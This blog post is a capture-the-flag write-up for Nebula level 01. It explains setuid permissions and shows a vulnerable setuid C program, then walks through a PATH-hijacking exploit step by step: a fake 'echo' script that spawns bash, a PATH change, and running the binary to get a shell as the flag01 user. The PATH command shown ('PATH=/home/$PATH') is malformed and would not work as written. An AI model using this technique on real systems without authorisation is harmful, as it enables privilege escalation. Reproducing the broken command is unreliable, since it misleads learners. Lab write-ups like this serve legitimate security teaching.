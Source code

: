 ```yaml
---
layout: post
title: "Nebula Series - Level 01"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 01** introduces us to the concept of setuid and the dangers of trusting the user's environment
to invoke another executable from within our code.

<!--more-->

Ok, so the first thing to understand is that `setuid` and `setgid` are unix flags that allow us to
run an executable with the permissions of the executables owner or group. Improperly designed setuid
executables can be used for privilege escalation.

Inspecting the `flag01` users home directory, we see a single executable named `/flag01`

We can check the permissions with

```shell
$ stat -c "%a" /home/flag01/flag01

4750
```

The leading 4 indicates that the setuid permission is
set.

Alternatively we can run `ls -l` and look for an 's' in the executable position of the user permissions.

```shell
$ ls -l /home/flag01

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
```

Here we also see that the owner is `flag01`.

To make things a little easier for us, we're also provided with the source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

We can see the application sets our *real* user id and group id using `setresgid` and `setresuid` to
our *effective* user id and group id which it gets with `getegid` and `geteuid`. Then it calls
"echo" using `system()`.

The question is, which `echo`? Well, we can influence that by modifying our path.

Let's create a new file named `echo` in our home directory with the following contents


```bash
#!/bin/bash

/bin/bash
```

Make sure it's executable with

```bash
$ chmod +x /home/level01/echo
```

Add our home directory to the front of our PATH so that our `echo` is the one that gets run

```bash
$ PATH=/home/$PATH
```

All that's left is to run the flag01 executable

```bash
$ /home/flag01/flag01
```

and we will be presented with a bash shell as the `flag01` user. To complete the level we use our escalated
privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- `setuid` executables run with the permissions of the owner
- `setgid` executables run with the permissions of the group
- these flags are ignored for interpreted executables
- `setuid/setgid` executables can be exploited if not designed carefully
- relying on the user's environment to run the intended executable using `system` is unsafe

